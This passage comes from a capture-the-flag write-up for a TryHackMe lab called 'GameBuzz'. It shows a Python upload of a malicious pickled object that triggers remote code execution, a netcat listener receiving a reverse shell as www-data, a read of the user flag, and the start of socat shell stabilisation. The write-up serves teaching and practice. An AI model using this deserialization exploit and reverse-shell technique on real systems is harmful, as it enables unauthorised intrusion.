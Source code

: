 Nope. The path traversal doesn't work.

**After some trial and error, I found that the uploaded file is in `/var/upload/<filename>`:**
```py
    file = {
        'the_file': (f'/var/upload/{filename}', pickle.dumps(PickleRCE()))
    }

    pickleData = {'object': f'/var/upload/{filename}'}
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:18:33(HKT)]
└> python3 upload_file.py
[*] Upload file request:
The file evilObject.pkl has been uploaded

```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:14:25(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.115.32] 48784
bash: cannot set terminal process group (916): Inappropriate ioctl for device
bash: no job control in this shell
www-data@incognito:/$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
incognito
uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(nosu)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:8b:df:7d:19:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.115.32/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2339sec preferred_lft 2339sec
    inet6 fe80::8b:dfff:fe7d:191f/64 scope link 
       valid_lft forever preferred_lft forever
```

This time it worked!!

I'm user `www-data`!

**user.txt:**
```shell
www-data@incognito:/$ cat /home/dev2/user.txt
{Redacted}
```

**Stable shell via `socat`:**
```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.24|13:20:36(HKT)]-[git://master ✗]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:19:48(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444                
2023/01/24 13:20:40 socat[74118] N opening character device "/dev/pts/1" for reading and writing
2023/01/24 13:20:40 socat[74118] N listening on AF=2 0.0.0.0:4444
```
